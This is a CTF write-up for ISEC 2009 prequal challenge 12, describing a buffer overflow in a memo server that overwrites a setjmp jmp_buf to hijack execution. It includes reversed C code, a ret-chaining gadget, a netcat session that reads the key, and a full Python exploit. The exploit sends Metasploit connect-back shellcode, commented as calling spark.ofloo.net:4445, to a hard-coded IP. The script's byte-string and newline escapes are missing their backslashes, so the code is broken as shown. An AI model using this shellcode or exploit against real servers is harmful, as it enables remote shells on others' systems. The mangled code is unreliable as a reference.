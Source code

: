 ```yaml
---
title: 'ISEC 2009 CTF Prequal &#8211; Challenge 12'
author: rd
excerpt: |
  |
    This is the write up for ISEC 2009 CTF Prequal challenge 12 as promised. Have fun.
layout: post

shorturls:
  - 'a:4:{s:9:"permalink";s:70:"https://www.vnsecurity.net/2009/08/isec-2009-ctf-prequal-challenge-12/";s:7:"tinyurl";s:26:"http://tinyurl.com/ydbz2uw";s:4:"isgd";s:18:"http://is.gd/aOtaj";s:5:"bitly";s:20:"http://bit.ly/74ZGyl";}'
tweetbackscheck:
  - 1408358995
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
category:
  - 'CTF - CLGT Crew'
---
```

## Summary

The provided [*isec*][1] binary is a memo server listening on port 8909. It has a remote buffer overflow bug in add memo function in which we can overwrite jmp_buf exception environment stored by setjmp(). Once *longjmp() *is called later in the program, we can control the EIP to execute our own code.

### Vulnerability

The bug is inside the function which is responsible for add memo command at **0x08048CE0**. Below is reverse C code of this function:

<pre class="brush: cpp; gutter: true; highlight: [0,29,37,38]; title: ; notranslate" title="">char memo_array[30][30];
char memoflag_array[30];
int lastmemo;
char buf4[4];

int add_memo(int fd)
{
    char buf128[128];
    int i;
    int idx;

    idx = lastmemo;
    memset(buf128, 0, 128);
    for ( i = 0; i &lt;= 14; ++i )
    {
        if ( i == 15 )
        {
            memcpy(buf128, "[!] Buffer Full!!n", 19);

            return send(fd, buf128, strlen(buf128), 0);
        }
        if ( !memoflag_array[i] )
        {
            idx = i;
            break;
        }
    }
    memoflag_array[idx] = 1;
    if ( !setjmp(exception_env) )
    {
        memcpy(buf128, "n[ Add Memo ]n", 15);
        send(fd, buf128, strlen(buf128), 0);
        memcpy(buf128, "Enter Message : ", 17);
        send(fd, buf128, strlen(buf128), 0);
        memset(buf128, 0, 128);
        recv(fd, buf128, 28, 0);
        strcpy(buf4, buf128);
        longjmp(exception_env, 1);
    }

    if ( strlen(buf128) &lt;= 18 )
    {
        memset(memo_array[idx], 0, 30);
        sprintf(memo_array[idx], "Memo : %s, size : %d", buf128, strlen(buf128));
        memcpy(buf128, "nSaved Memo!!nn", 16);
        send(fd, buf128, strlen(buf128), 0);
        result = lastmemo;
        if ( idx &gt;= lastmemo )
        {
             lastmemo = idx + 1;
             return lastmemo;
        }
    }
    else
    {
        memset(buf128, 0, 128u);
        memcpy(buf128, "size too big!!n", 16);
        send(fd, buf128, 128, 0);
    }
}
</pre>

It is easy to see a buffer overflow bug at line 37*** **strcpy(buf4, buf128)*. If the input is long enough (more than 24 bytes), we will be able to overwrite the *jmp\_buf exception\_env* (see below) which is being used to save exception stack by *setjmp()* at line 29. By overwriting the IP saved on this *jmp_buf* and pointing it back to our shellcode, once *longjmp()* is called later at line 38, our shellcode will be executed.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.bss:0804AD48 ; char buf[4]
.bss:0804AD48 buf4            db 4 dup(?)             ; DATA XREF: add_memo+312
.bss:0804AD4C                 public environ
.bss:0804AD4C environ         dd 5 dup(?)             ; DATA XREF: start+16
.bss:0804AD60 ; struct __jmp_buf_tag exception_env
.bss:0804AD60 exception_env   dd ?                    ; DATA XREF: add_memo+BD
.bss:0804AD60                                         ; 24 bytes away from buf4</pre>

### Exploit

It&#8217;s quite straight forward to exploit this bug. The only problem is that we need to find a good location to store our connect back shellcode as the server only get 28 bytes into buf128 from client. We could do this by splitting the shellcode into many small chunks across different memo records (each memo size is 30 bytes including some predefined texts so we have about 17 bytes for each shellcode chunk in each memo).

I was able to come up with a working exploit in about half an hour after started working on this challenge. Unfortunately, since there was no preparation for this CTF game, the only freesbsd shell I can get access to was a free shell on geekshell.org. It&#8217;s a 64 bits FreeBSD box (amd64), \`*gcc -m32*\` did not work and some weird behaviors happened due to 32-bit compatibility mode. It was kinda a pain. I spent couple of hours after finishing the exploit just to figure out why my exploit didn&#8217;t work, how weird behaviors happened, non-executable data/BSS and how to bypass it and so on.. instead of working on the challenge.

As the BSS segment was non-executable in this box, I searched around the binary and eventually found out a way to do multiple ret-into-code/libc chains (such as calling another recv() for the next stage) by pointing the EIP to 0&#215;08049454.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.text:08049454                 add     esp, 24h
.text:08049457                 pop     ebx
.text:08049458                 pop     ebp
.text:08049459                 retn
</pre>

This code allows me to have ESP pointing back into the beginning part of controllable buf128 on stack for the ret/..ret/.. chaining.

Fortunately, while I was doing this, a friend went online and gave me the ssh access to his FreeBSD 32 bit box. So I stopped doing it and tried my previous exploit on this 32bits box. It worked without any problem after a few small tweaks.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">xxx@spark.ofloo.net&gt; nc -l 4445
id
uid=1006(memo) gid=1006(memo) groups=1006(memo)
cat key
WOWHACKER_WOWCODE&OVERHEAD!?
</pre>

### Exploit code

<pre class="brush: python; gutter: true; title: ; notranslate" title="">#!/usr/bin/env python

import socket

class memo:
	def  __init__(self, host, port):
		self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.s.connect((host, port))
		ret = self.s.recv(1024)
		print ret

	def addmemo(self, memo):
		cmd = "1n"
		self.s.send(cmd)
		ret = self.s.recv(1024)
		print ret
		ret = self.s.recv(1024)
		print ret
		print repr(memo) + "n"
		self.s.send(memo)
		ret = self.s.recv(1024)
		print ret
		ret = self.s.recv(1024)
		print ret

	def close(self):
		self.s.close()

host = "221.143.48.88"
port = 8909

c = memo(host, port)
a = raw_input("Enter to continue");

# metasploit connect back shellcode with few modifications (jmp)
# spark.ofloo.net:4445
sc = "x68xd4x47x13x66x68xffx02x11x5dx89xe7x31xc0x50x6ax01" 
     "x6ax02x6ax10xb0x61xcdx80x57x50x50x6ax62x58xcdx80x50" 
     "x6ax5ax58xcdx80xffx4fxe8x79xe6x68x2fx2fx73x68x68x2f" 
     "x62x69x6ex89xe3x50x54x53x50xb0x3bxcdx80"

SPLITS = [15, 28, 42, 56, 65]
JMPFWD = "xEBx0D"
prev = 0
for next in SPLITS:
	tmp = sc[prev:next]
	tmp = tmp.rjust(15,'x90') + JMPFWD
	c.addmemo(tmp)
	prev = next

# jmpbuf overflow [24 bytes] [EIP]
# 1st memo starts at memo_array+7 = 0x804a9c7
s = "A"*24 + "xc7xa9x04x08"
c.addmemo(s)

c.close()
</pre>

 [1]: /vnsec/Members/rd/Files/misc/isec.bin